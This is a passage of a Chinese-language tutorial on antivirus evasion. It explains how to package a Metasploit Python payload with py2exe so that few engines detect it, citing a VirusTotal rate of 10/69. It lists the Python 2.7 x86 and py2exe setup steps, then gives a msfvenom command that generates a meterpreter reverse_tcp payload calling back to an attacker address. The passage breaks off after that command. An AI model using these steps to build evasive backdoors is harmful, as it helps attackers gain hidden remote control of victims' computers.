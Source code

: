 ![a0abdfbd462c671658ef62db6537b1c4](images/2020.04-bypass-05/5.png)


## 2.2 方法2：py2exe打包编译exe (VT免杀率10/69)

该方法借用了免杀工具`Python-Rootkit`的思路。

首先要在windows上安装x86版的python。

**注意：必须使用x86版本Python 2.7,即使Windows是x64的，也要安装32位版本。**

我这里安装的是Python 2.7.16 x86 windows版：

```
https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi
```

之后安装32位Py2exe for python 2.7
```
https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download
```
在Windows上安装OpenSSL（可选）

msfvenom生成python payload
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.211.55.2  LPORT=3333  -f raw -o shell.py
```
